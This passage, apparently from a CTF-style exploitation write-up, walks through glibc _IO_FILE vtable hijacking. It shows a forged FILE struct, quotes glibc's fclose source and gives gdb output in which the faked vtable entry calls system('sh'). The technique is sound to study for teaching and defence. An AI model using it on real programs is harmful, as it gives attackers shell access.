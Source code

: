 ```
    _IO_backup_base = 0x0, 
    _IO_save_end = 0x0, 
    _markers = 0x0, 
    _chain = 0x804a0f0 <name+48>, 
    _fileno = 0x3, 
    ...
  }, 
  vtable = 0x804a07c
}
```

The `_fileno` member must remain intact because if it's not an existing file descriptor, an error will be triggered. Let's call
`fclose` on the `/dev/null` file stream and see what happens.
 
 `fclose` will call `_IO_new_fclose` internally and finally `_IO_file_close_it`.
 
 ```c
 int
_IO_new_fclose (fp)
     _IO_FILE *fp;
{
  int status;

  CHECK_FILE(fp, EOF);

  ...

  /* First unlink the stream.  */
  if (fp->_IO_file_flags & _IO_IS_FILEBUF)
    _IO_un_link ((struct _IO_FILE_plus *) fp);

  _IO_acquire_lock (fp);
  if (fp->_IO_file_flags & _IO_IS_FILEBUF)
    /* will try to call whatever is at the 18th index in the vtable */
    status = _IO_file_close_it (fp); 
```

```
0xf7e7a917 <_IO_new_file_close_it+263>:	mov    eax,DWORD PTR [ebx+eax*1+0x94]
0xf7e7a91e <_IO_new_file_close_it+270>:	push   ebx
0xf7e7a91f <_IO_new_file_close_it+271>:	call   DWORD PTR [eax+0x44]

gdb-peda$ p $eax
$24 = 0x804a07c
gdb-peda$ p $ebx
$25 = 0x804b300
gdb-peda$ x/wx $eax+ 0x44
0x804a0c0 <name>:	0xf7e4bda0
gdb-peda$ x 0xf7e4bda0
0xf7e4bda0 <__libc_system>:	0x8b0cec83
gdb-peda$ x/s 0x804b300
0x804b300:	"sh"
```
